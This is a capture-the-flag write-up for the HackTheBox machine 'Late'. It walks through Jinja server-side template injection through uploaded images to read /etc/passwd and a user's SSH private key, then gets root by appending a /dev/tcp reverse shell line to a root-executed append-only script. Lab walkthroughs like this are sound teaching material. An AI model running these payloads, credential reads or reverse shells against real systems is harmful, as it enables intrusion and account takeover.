

late
HTB: Late

When we look on the homepage or in source code we have a reference to: http;//images.late.htb
We add it in hosts file as.
10.10.11.156 images.late.htb
We visit images.late.htb
It is a OCR site. It will scan out texts from images.
Here we try Server Side Template Injection(SSTI)
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
The first Payloads to test.
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
We write the above in mousepad and take a screenshot in flameshot, then save the image.
When we upload the image, we got result.txt
It was evaluating the value for first payload {{7*7}} to 49 confirming that the app is vulnerable to SSTI.
Upon Researching the tools. We find that backend is Flask which uses Jinja
Searching for jinja specific exploit in the hacktricks link, we found the following.

{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
once we run this using image. We got the output in results.txt
Then we read the id_rsa file and copy its contents to a local id_rsa file.
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read() }}
We copy the contents of result.txt into a local id_rsa file
chmod 600 id_rsa
ssh -i id_rsa svc_acc@10.10.11.156
Now we can ssh into user account without any password.
Privilege Escalation
I ran LINPeas in the server and it showed a vulnerable script file.
/usr/local/sbin/ssh-alert.sh
This file runs as root whenever a ssh connection is made. This can be verified using pspy64 and observing the processes.
On Paper it seems we have write access to /usr/local/sbin/ssh-alert.sh
But upon writing we fail.
lsattr /usr/local/sbin/ssh-alert.sh
Shows us that only append is possible.
so we make a file containing a reverse shell in /tmp folder.
echo ‘/bin/sh -i >& /dev/tcp/10.10.16.4/6666 0>&1’ > /tmp/append.txt
Then we run the following command to append the payload inside the script
cat /tmp/appendt.txt >> /usr/local/sbin/ssh-alert.sh
Note: After each ssh login, this file is refreshed.
So as soon as we append this payload.
Start listener and make another ssh connection to the machine
This is give us a root shell in the listner.
Thanks!!